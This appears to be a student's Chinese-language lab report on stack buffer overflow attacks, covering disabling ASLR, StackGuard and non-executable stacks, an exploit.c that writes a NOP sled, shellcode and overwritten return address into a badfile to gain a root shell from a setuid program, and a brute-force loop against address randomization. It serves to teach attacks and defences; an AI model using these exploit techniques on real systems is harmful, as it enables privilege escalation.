

# 信息安全导论lab3

> PB18111707 吕瑞
>
> 2021/5/7

## 实验描述

### 实验背景

**缓冲区溢出：** 计算机向缓冲区内填充数据的位数超过了缓冲区预先分配的容量。

**缓冲区溢出攻击：** 通过向程序的缓冲区写超出其长度的内容，造成缓冲区溢出，从而破坏程序的堆栈，使得程序转而执行其他指令，以达到攻击的目的（比如获取进程的控制权）。

### 实验环境

- 32 位 ubuntu_16.04.6
- Oracle VM VirturalBox 管理器 

### 实验内容

实验给出了一个有缓冲区溢出漏洞的程序 stack.c，它会从文件中读取数据，并拷贝至自己的缓冲区。

我们需要利用这个漏洞获得 root 权限：通过精心设计 exploit.c 攻击程序，使其利用用户程序的漏洞产生badfile 文件，从而使用户程序读取 badfile 时，被攻击者控制。

 此外，我们将接触在 Linux 中实施的几种保护方案，并评估其有效性。


## 实验过程

### Initial setup

为了防止缓冲区溢出，linux 操作系统已经添加了多种保护机制。为了让我们的攻击执行顺利，我们需要禁用某些机制。

- **Address Space Randomization **

    ``` makefile
    # 禁止地址随机化机制
    $ su root
    Password: (enter root password)
    #sysctl -w kernel.randomize_va_space=0
    ```


- **The StackGuard Protection Scheme **

    ```makefile
    # 关闭 gcc 的 stack guard
    $ gcc -fno-stack-protector example.c
    ```

    

- **Non-Executable Stack**

    ```makefile
    # 允许可执行栈
    $ gcc -z execstack -o test test.c
    
    # 不允许可执行栈（保护）
    $ gcc -z noexecstack -o test test.c
    ```


### Task 1: Exploiting the Vulnerability

#### exploit.c

```c
void main(int argc, char **argv) {
  char buffer[517];
  FILE *badfile;

  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);

  /* You need to fill the buffer with appropriate contents here */
  strcpy(buffer+100,shellcode); // 将 shellcode 拷贝到 buffer 中
    
  strcpy(buffer+0x24,"\x7b\xee\xff\xbf"); // 在 buffer 特定偏移处起始的四个字节覆盖写入一个字
    
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
}
```

攻击程序 exploit.c 编译执行后， buffer 的内容就是 badfile 的数据。所以需要将 shellcode 的内容拷贝到 buffer。

shellcode 相对于 buffer 的偏移值需要设置一个大于 0 的数，这里取 100；

```c
strcpy(buffer+offset,"\x7b\xee\xff\xbf");
```

为了实现拷贝过程中 shellcode 的首地址正好覆盖函数 bof 执行后的返回地址，我们需要在 buffer 特定偏移处起始的四个字节覆盖写入一个字。

显然，这个字为 shellcode 的首地址。

#### 通过调试确定 shellcode 的首地址

1 禁止地址随机化

```makefile
$ sudo su
    Password: (enter root password)
#sysctl -w kernel.randomize_va_space=0
```

2 编译漏洞程序 stack.c

```makefile
$ su root 
    Password: (enter root password)
# gcc -g -o stack -z execstack -fno-stack-protector stack.c 
# chmod 4755 stack 
# exit
```

3 获得 shellcode 地址

```makefile
$ gdb stack
(gdb) b main
(gdb) r
(gdb) p /x &str
```




从上图可以看到，漏洞程序读取 badfile 文件到缓冲区 str，且 str 的地址为`0xbfffee17`，则 shellcode 地址为 `0xbfffee17` + 100 = `0xbfffee7b`。


#### 计算 bof 函数执行后的返回地址

（参考曾老师信息安全导论课程 ppt 第七章）

1. 记录堆栈指针 esp 的值：A = $esp = `0xbfffedfc`

    

    

2. 记录 buffer 的首地址：B = buff = `0xbfffedd8`

    

    

3. 计算 buff 的首地址与 bof 返回地址所在的栈的距离：

    offset = A - B = `0xbfffedd8 - 0xbfffedfc` = `36` = `0x24`

#### 攻击测试

```makefile
$ gcc -o exploit exploit.c
$./exploit // create the badfile
$./stack // launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```


如上图，exploit 程序能够成功获取 root shell。


### Task 2: Address Randomization

现在考虑地址随机化这一保护机制。

当开启地址随机化保护机制时，程序运行栈的基地址是随机的， Task1 中针对特定基地址的缓冲区溢出攻击可能不再有效。

```makefile
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
    Password: (enter root password) 
# exit
$ sh -c "while [ 1 ]; do ./stack; done;"
```


但是，对于每个特定的操作系统，地址随机范围都是确定的且较为集中。所以我们可以假设，在一定时间内，会出现两次地址相同的情况，这样就不用改变 Task1 的地址设置，用循环不停尝试运行漏洞程序，直到成功启动 root shell。


### Task 3: Stack Guard

现在讨论 Stack Guard 保护机制。注意先关闭随机化地址保护机制。

重新编译 stack.c ，此时删除 Task1 中的 `-fno-stack-protector` 参数

```makefile
$ su root 
    Password: (enter root password)
# gcc -g -o stack -z execstack stack.c 
# chmod 4755 stack 
# exit
```


如图，可以看到报错 “stack smashing detected” ，这正是分配空间不足引起的错误。

### Task 4: Non-executable Stack

现在讨论 “堆栈不可执行” 保护机制。注意先关闭随机化地址保护机制。

重新编译 stack.c ，此时修改 Task1 中的 `execstack` 参数为 `noexecstack`。

```makefile
$ su root 
    Password: (enter root password)
# gcc -o stack -fno-stack-protector -z noexecstack stack.c 
# chmod 4755 stack 
# exit
```


需要注意的是，堆栈不可行机制的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入 shellcode 时，程序会尝试在数据页面上执行指令，此时 CPU 就会抛出异常，而不是去执行恶意指令。

因此该机制只能保证不会在堆栈上运行 shellcode，但是不能完全防止缓冲区溢出攻击。因为还有其他方式运行恶意代码后利用缓冲区溢出漏洞。